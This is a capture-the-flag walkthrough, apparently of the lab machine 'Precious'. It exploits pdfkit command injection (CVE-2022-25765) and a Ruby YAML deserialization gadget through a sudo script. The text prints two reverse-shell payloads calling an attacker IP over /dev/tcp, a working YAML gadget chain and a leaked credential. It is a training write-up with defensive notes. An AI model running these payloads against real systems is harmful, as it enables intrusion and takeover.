

# Precious

## Machine Info


## Recon

### port

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web

Web function: convert web page (input url) into PDF file


```console
└─╼$ whatweb http://precious.htb/
http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```


Version Information:

- `Phusion Passenger(R) 6.0.15`
- `pdfkit 0.8.6`

## Foothold

### CVE-2022–25765 Command Injection

> The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized. 0.0.0.0 < versions <0.8.7.2
>
> - [Command Injection in pdfkit | CVE-2022-25765 | Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)
> - [NVD - CVE-2022-25765 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)
> - [Exploit for CVE-2022–25765 (pdfkit) - Command Injection](https://github.com/UNICORDev/exploit-CVE-2022-25765)

**POC**: ping local kali

```console
└─╼$ python exploit-CVE-2022-25765.py -c 'ping -c 1 10.10.14.14'
/home/qwe/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (2.2.0) or chardet (5.2.0)/charset_normalizer (3.3.2) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Mode
PAYLOAD: http://%20`ping -c 1 10.10.14.14`
WARNING: Wrap custom command in "quotes" if it has spaces.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```




```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:27:25.180803 IP 10.10.11.189 > 10.10.14.14: ICMP echo request, id 40729, seq 1, length 64
11:27:25.180829 IP 10.10.14.14 > 10.10.11.189: ICMP echo reply, id 40729, seq 1, length 64
```

**Exploit**: command injection to execute a reverse shell

```console
└─╼$ python exploit-CVE-2022-25765.py -c 'bash -c "bash -i >&/dev/tcp/10.10.14.14/1234 0>&1"'
/home/qwe/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (2.2.0) or chardet (5.2.0)/charset_normalizer (3.3.2) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Mode
PAYLOAD: http://%20`bash -c "bash -i >&/dev/tcp/10.10.14.14/1234 0>&1"`
WARNING: Wrap custom command in "quotes" if it has spaces.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 40630
bash: cannot set terminal process group (686): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$ uname -a
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

## Privilege Escalation

### ruby -> henry

henry's credential leakage + ssh login

```console
ruby@precious:~$ find . -type f -exec grep -ilE 'passw|henry' {} + 2>/dev/null
./.bundle/config

ruby@precious:~$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

### henry -> root

```console
henry@precious:/home/ruby$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:/home/ruby$ ls -l /opt/update_dependencies.rb
-rwxr-xr-x 1 root root 848 Sep 25  2022 /opt/update_dependencies.rb
henry@precious:/home/ruby$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

`dependencies.yml` is a relative path => create a malicious yaml file with command injection of revshell

- [Ruby Privilege Escalation | Exploit Notes (hdks.org)](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/)

```console
henry@precious:/dev/shm$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'"
         method_id: :resolve
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found

----------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 58976
root@precious:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root)
root@precious:/dev/shm# uname -a
uname -a
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

## Exploit Chain

port scan -> web: convert web into pdf (using pdfkit 0.8.6) -> cve: rce -> www-data shell -> credential in ruby bundle config -> henry shell -> enum sudo -> dependencies.yml relative path -> create malicious yml & exeucte sudo script to trigger revshell -> root shell

### Beyond Root

### Ruby Bundle

In Ruby projects, the `.bundle` directory is created by Bundler, a dependency management tool. Bundler manages the dependencies of Ruby applications to ensure that your application runs with the same versions of third-party libraries (gems) across different development, testing, and production environments.

The `.bundle` directory typically contains configuration files and environment-specific settings particular to the project. These configurations often override the global settings of Bundler. The most common file within this directory is the `config` file, which stores the Bundler configuration settings for the current application.

The settings in the `config` file control how Bundler behaves, such as:

- Setting mirror sites
- Configuring the path for gem installations
- Setting the number of gems to install in parallel
- And other default behaviors for Bundler commands

Regarding the `config` file content this machine has:

```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

This is a YAML-formatted `config` file containing part of the Bundler configuration. In this example, it appears to configure credentials for `https://rubygems.org/` (the Ruby community's gem hosting service). This credential might be used for installing private gems or for authenticating when publishing gems.

- `BUNDLE_HTTPS://RUBYEGMS__ORG/`: This key refers to the configuration for `https://rubygems.org/`. (The configuration key uses double underscores `__` instead of periods `.` because Bundler configuration syntax requires it. Similar translations are often used when setting environment variables.)
- `"henry:Q3c1AqGHtoI0aXAYFH"`: This looks like a combination of a username and password, possibly used for basic authentication.

So, this configuration contains sensitive information (username and password).

### Ruby YAML

Malicious for:

- `File.read('sample.yml')`
- The root-priv script: `YAML.load(File.read('sample.yml'))`

This YAML file contains serialized data for Ruby objects that represent instances of several internal classes of RubyGems. The `!ruby/object:<ClassName>` tags in the YAML file specify the Ruby object's class to be deserialized.

- The first object is an instance of the `Gem::Installer` class with a property `i` with the value `x`.

- The second object is an instance of the `Gem::SpecFetcher` class, also with a property `i` with the value `y`.

- The third object is an instance of the `Gem::Requirement` class, which includes a `requirements` property. This property is an instance of the `Gem::Package::TarReader` class.

  The `Gem::Package::TarReader` object contains an `io` property, which is another instance of the `Gem::Package::TarReader::Entry` object. This `Entry` object has `read` and `header` properties.

  Notably, the `debug_output` property is set to an instance of the `Net::WriteAdapter` object, which contains a socket and method ID. The `socket` property is an instance of the `Gem::RequestSet` object, which includes `sets` and `git_set` properties. The `git_set` property contains a suspicious string that  a Bash command attempts to create a reverse shell.

Especially in Ruby, when loading YAML files, one should use `YAML.safe_load` instead of `YAML.load`, as `YAML.load` can create arbitrary Ruby objects, which may lead to code execution vulnerabilities. If you need to handle YAML, ensure that you fully trust the source of the YAML file and understand its contents.

